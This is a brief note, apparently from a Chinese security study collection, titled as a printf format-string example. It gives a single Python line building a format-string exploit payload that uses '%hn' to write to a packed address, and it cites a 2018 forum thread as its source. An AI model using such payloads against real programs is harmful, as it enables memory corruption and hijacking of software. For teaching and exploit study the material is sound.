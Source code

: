 # printf格式化字符串示例

```python
payload = 'evXnaK%.48363x%8$hnabc'+'\x72\x0A\x40\x00' 
```

来源: https://bbs.pediy.com/thread-228735.htm  


2018/11/14  
